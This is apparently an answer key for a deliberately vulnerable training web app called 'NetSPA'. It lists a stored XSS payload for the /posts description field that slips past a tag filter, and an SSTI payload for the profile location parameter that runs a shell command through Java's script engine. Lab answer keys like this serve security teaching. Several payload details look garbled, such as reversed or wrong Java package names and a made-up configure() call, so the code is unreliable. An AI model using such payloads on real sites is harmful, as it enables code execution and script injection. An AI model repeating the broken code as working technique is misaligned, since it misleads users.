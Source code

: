 NetSPA Quick Reference

XSS:
- Location: /posts (create post, description field)
- Controls: Blocks all tags except optgroup, blocks "alert" payloads - note that with the below payload, you'll have to check the dev console to see the output of the operation.
- Example Payload: <optgroup id=456 tabindex=20 onblur=configure("schema:console") style=display:block>test</optgroup><input value=clickme>

SSTI: 
- Location: /profile/<userID>/edit/update (profile update, location parameter)
- Controls: N/A but the difficulty is finding the right payload. If they do the research, they should stumble upon the below.
- Example Payload: {{'f'.forName().newInstance('ScriptEngineManager.javax.script').getEngineByName('JavaScript:processingEngine').eval(\"var f=new javax.lang.ProcessBuilder; f.command(\\\"netstat -ntrm\\\")\")}}

TODO

<!-- NetSPA net SPA answer key walkthrough walk through -->
